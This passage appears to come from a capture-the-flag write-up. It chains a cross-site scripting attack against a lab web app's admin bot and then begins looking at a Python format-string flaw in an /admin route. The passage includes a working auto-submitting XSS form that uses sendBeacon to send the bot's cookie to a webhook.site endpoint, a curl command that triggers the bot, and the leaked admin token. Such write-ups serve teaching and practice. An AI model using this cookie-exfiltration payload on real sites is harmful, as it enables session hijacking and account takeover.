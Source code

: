 ```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return '''
    <!DOCTYPE html>
    <html>
    <head>
        <title>XSS Test</title>
    </head>
    <body>
        <h2>XSS Exploit</h2>

        <form id="post-form" method="POST" action="http://127.0.0.1:5000/your-name#behindthename-redirect">
            <input type="hidden" name="name" value='solopieandsealldev\\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=${document.cookie}`);//'>
            <input type="submit" value="Submit">
        </form>

        <script>
            document.getElementById('post-form').submit();
        </script>
    </body>
    </html>
    '''

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

Let's host this code on `attacker.com`.

We can then send out attacker URL to the `/report` endpoint, have the bot visit our site, get the token back on webhook.site!

```bash
$ curl "http://localhost:5000/report?url=https://attacker.com"
```

We then get a response from the server, `https://webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=X-Admin-Token=68fd3889bf98101b1639d81d8428955d`

## Python Format Strings

Woo! Now we can do that on remote and access `/admin`!

Looking closer at the `app.py` there is a vulnerability in `/admin`:

```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403

    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))
```
